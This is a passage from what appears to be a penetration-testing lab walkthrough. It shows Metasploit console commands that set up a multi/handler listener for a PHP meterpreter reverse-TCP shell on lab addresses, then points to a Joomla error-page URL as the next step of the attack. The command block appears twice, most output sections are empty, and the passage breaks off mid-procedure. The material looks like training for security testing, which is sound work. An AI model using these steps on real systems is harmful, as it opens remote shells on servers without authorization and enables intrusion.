


4.2 Opening a Handler
1. Open on your Kali Machine a shell and run the following command.
$msfconsole
Output:

2. Run the following commands.
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.12.10
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.12.10
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit
Output:

You got a meterpreter.
3. Invoke an error page. Visit this URL
http://192.168.12.21/joomla/index.php/<>